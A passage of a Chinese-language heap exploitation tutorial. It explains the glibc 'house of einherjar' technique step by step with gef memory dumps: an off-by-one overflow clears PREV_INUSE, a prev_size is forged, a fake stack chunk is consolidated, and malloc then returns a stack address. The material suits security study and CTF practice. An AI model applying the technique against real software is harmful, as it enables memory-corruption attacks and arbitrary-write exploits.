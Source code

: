 首先分配一个假设存在 off_by\_one 溢出的 chunk a，然后在栈上创建我们的 fake chunk，chunk 大小随意，只要是 small chunk 就可以了：
```
gef➤  x/8gx a-0x10
0x603000:	0x0000000000000000	0x0000000000000021  <-- chunk a
0x603010:	0x4141414141414141	0x4141414141414141
0x603020:	0x4141414141414141	0x0000000000020fe1  <-- top chunk
0x603030:	0x0000000000000000	0x0000000000000000
gef➤  x/8gx &fake_chunk 
0x7fffffffdcb0:	0x0000000000000080	0x0000000000000080  <-- fake chunk
0x7fffffffdcc0:	0x00007fffffffdcb0	0x00007fffffffdcb0
0x7fffffffdcd0:	0x00007fffffffdcb0	0x00007fffffffdcb0
0x7fffffffdce0:	0x00007fffffffddd0	0xffa7b97358729300
```

接下来创建 chunk b，并利用 chunk a 的溢出将 size 字段覆盖掉，清除了 `PREV_INUSE` 标志，chunk b 就会以为前一个 chunk 是一个 free chunk 了：
```
gef➤  x/8gx a-0x10
0x603000:	0x0000000000000000	0x0000000000000021  <-- chunk a
0x603010:	0x4141414141414141	0x4141414141414141
0x603020:	0x4141414141414141	0x0000000000000100  <-- chunk b
0x603030:	0x0000000000000000	0x0000000000000000
```
原本 chunk b 的 size 字段应该为 0x101，在这里我们选择 malloc(0xf8) 作为 chunk b 也是出于方便的目的，覆盖后只影响了标志位，没有影响到大小。

接下来根据 fake chunk 在栈上的位置修改 chunk b 的 prev_size 字段。计算方法是用 chunk b 的起始地址减去 fake chunk 的起始地址，同时为了绕过检查，还需要将 fake chunk 的 size 字段与 chunk b 的 prev\_size 字段相匹配：
```
gef➤  x/8gx a-0x10
0x603000:	0x0000000000000000	0x0000000000000021  <-- chunk a
0x603010:	0x4141414141414141	0x4141414141414141
0x603020:	0xffff800000605370	0x0000000000000100  <-- chunk b <-- prev_size
0x603030:	0x0000000000000000	0x0000000000000000
gef➤  x/8gx &fake_chunk 
0x7fffffffdcb0:	0x0000000000000080	0xffff800000605370  <-- fake chunk <-- size
0x7fffffffdcc0:	0x00007fffffffdcb0	0x00007fffffffdcb0
0x7fffffffdcd0:	0x00007fffffffdcb0	0x00007fffffffdcb0
0x7fffffffdce0:	0x00007fffffffddd0	0xadeb3936608e0600
```

释放 chunk b，这时因为 `PREV_INUSE` 为零，unlink 会根据 prev_size 去寻找上一个 free chunk，并将它和当前 chunk 合并。从 arena 里可以看到：
```
gef➤  heap arenas 
Arena (base=0x7ffff7dd1b20, top=0x7fffffffdcb0, last_remainder=0x0, next=0x7ffff7dd1b20, next_free=0x0, system_mem=0x21000)
```
合并的过程在 poison-null-byte 那里也讲过了。

最后当我们再次 malloc，其返回的地址将是 fake chunk 的地址：
```
gef➤  x/8gx &fake_chunk 
0x7fffffffdcb0:	0x0000000000000080	0x0000000000000021  <-- chunk d
0x7fffffffdcc0:	0x4141414141414141	0x4141414141414141
0x7fffffffdcd0:	0x00007fffffffdcb0	0xffff800000626331
0x7fffffffdce0:	0x00007fffffffddd0	0xbdf40e22ccf46c00
```
